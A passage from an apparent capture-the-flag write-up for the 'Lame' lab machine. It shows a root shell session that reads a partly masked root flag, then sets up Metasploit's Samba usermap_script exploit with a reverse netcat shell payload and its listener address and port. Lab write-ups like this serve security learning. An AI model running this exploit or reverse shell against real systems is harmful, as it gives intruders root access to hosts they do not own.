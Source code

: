 The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/\*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
firefart@lame:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@lame:~# pwd
/root
firefart@lame:~# ls
Desktop  reset\_logs.sh  root.txt  vnc.log
firefart@lame:~# cat root.txt 
19942...rootFlag...73328
firefart@lame:~#

## Other Exploitation

### SMB - Metasploit

This was an additional path that I found in enumeration that I went back and tried later. In searching the version of SMB being used,`Samba 3.0.20-Debian`, I found [this post](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/) from Rapid7 about a metasploit module that could be used to exploit a vulnerability present in it. Like most metasploit modules, this one was very point and shoot, and surprisingly dropped me straight into a root shell:

msf6 > use exploit/multi/samba/usermap\_script
\[\*\] No payload configured, defaulting to cmd/unix/reverse\_netcat
msf6 exploit(multi/samba/usermap\_script) > options 

Module options (exploit/multi/samba/usermap\_script):

   Name    Current Setting  Required  Description
   ---- --------------- -------- -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Usi
                                      ng-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse\_netcat):

   Name   Current Setting  Required  Description
   ---- --------------- -------- -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   -- ----
   0   Automatic
